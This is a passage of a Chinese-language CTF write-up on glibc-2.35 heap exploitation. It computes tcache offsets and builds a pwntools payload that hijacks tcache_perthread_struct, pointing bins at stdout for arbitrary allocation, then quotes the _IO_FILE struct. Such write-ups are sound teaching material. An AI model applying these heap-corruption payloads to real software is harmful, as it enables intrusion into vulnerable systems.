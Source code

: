 根据这个结构体，可以计算出0xf0大小的tcache块位于堆基址的偏移
```python
word_bytes = context.word_size // 8 # i386->word_size=32  amd64->word_size=64
target = 0xf0

# glibc-2.30之前
offset = 0x10 + 0x40 + (target-0x20)//0x10 * word_bytes

# glibc-2.30及以后
offset = 0x10 + 0x80 + (target-0x20)//0x10 * word_bytes
```
本题是glibc-2.35，利用第二个公式，计算出offset为0xf8
我们将`heap_base + 0xf8`这里的值覆盖为`heap_base + 0x10`
当我们申请0xe0大小的空间时(利用解包过程中会申请与content大小相同的空间)，便会申请到`heap_base+0x10`开始的写权限
即可劫持`tcache_perthread_struct`，实现堆任意分配

看看我们改之后的`tcache_perthread_struct`
```python
# 伪造counts
payload  = p16(0)*2+p16(1)+p16(1)+p16(0)*5+p16(1)
payload  = payload.ljust(0x80,b'\x00')

# 伪造entrtes
payload += p64(0)*2+p64(stdout)+p64(stdout)+p64(0)*5+p64(heap_base+0x10)
payload  = payload.ljust(0xe0,b"\x00")
```
我们将0x40,0x50,0xb0的counts修改为1
并将对应的0x40,0x50大小的entries改为stdout结构体的位置
将对应0xb0大小的堆块改为`heap_base+0x10`，以便继续控制`tcache_perthread_struct`
最后调整为0xe0，在解包过程中，会申请0xf0大小的chunk，也就是`tcache_perthread_struct`，然后将content填进去，也就实现了篡改`tcache_perthread_struct`

### stdout
```c
struct _IO_FILE {
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;	/* Current read pointer */
  char* _IO_read_end;	/* End of get area. */
  char* _IO_read_base;	/* Start of putback+get area. */
  char* _IO_write_base;	/* Start of put area. */
  char* _IO_write_ptr;	/* Current put pointer. */
  char* _IO_write_end;	/* End of put area. */
  char* _IO_buf_base;	/* Start of reserve area. */
  char* _IO_buf_end;	/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

```